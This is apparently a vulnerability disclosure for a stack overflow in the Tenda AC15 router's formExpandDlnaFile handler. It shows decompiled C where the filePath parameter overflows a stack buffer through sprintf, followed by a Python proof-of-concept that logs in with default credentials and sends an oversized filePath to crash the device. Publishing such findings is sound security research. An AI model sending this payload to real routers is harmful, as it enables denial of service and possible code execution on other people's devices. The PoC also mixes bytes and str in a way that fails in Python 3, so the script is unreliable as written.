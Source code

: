 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function formExpandDlnaFile, the content obtained by the program from the parameter "filePath" is passed to local_24, 
and then the local_24 is directly copied into the acStack1092 stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formExpandDlnaFile(undefined4 param_1)

{
  int iVar1;
  undefined4 uVar2;
  undefined auStack6468 [256];
  char acStack6212 [5120];
  char acStack1092 [512];
  char acStack580 [512];
  int local_44;
  DIR *local_40;
  dirent *local_3c;
  undefined4 local_38;
  undefined4 local_34;
  undefined4 local_30;
  void *local_2c;
  undefined4 local_28;
  undefined4 local_24;
  char *local_20;
  int local_1c;
  int local_18;
  int local_14;
  
  local_24 = 0;
  local_28 = 0;
  local_2c = (void *)0x0;
  local_30 = 0;
  local_34 = 0;
  local_38 = 0;
  local_3c = (dirent *)0x0;
  local_40 = (DIR *)0x0;
  memset(acStack580,0,0x200);
  memset(acStack1092,0,0x200);
  memset(acStack6212,0,0x1400);
  memset(auStack6468,0,0x100);
  local_44 = 0;
  local_14 = 0;
  local_18 = 0;
  local_1c = 0;
  local_20 = (char *)0x0;
  local_24 = FUN_0002b884(param_1,"filePath",&DAT_000f2e24);
  local_28 = FUN_0002b884(param_1,"folderGrade",&DAT_000f2e24);
  GetValue("dlna.db",auStack6468);
  sprintf(acStack1092,"%s/%s","/var/etc/upan",local_24);  //here is overflow
  local_20 = acStack1092;
  while (local_20 = strchr(local_20,0x2f), local_20 != (char *)0x0) {
    local_1c = local_1c + 1;
    local_20 = local_20 + 1;
  }
  local_30 = FUN_00041bfc();
  local_34 = FUN_00041bc0();
...
}
```

### * POC
```python
import requests


cmd  = b'filePath=' + b'A' * 1800 + '&folderGrade=1&subfileList=aaaaaaaaa'


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/expandDlnaFile/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
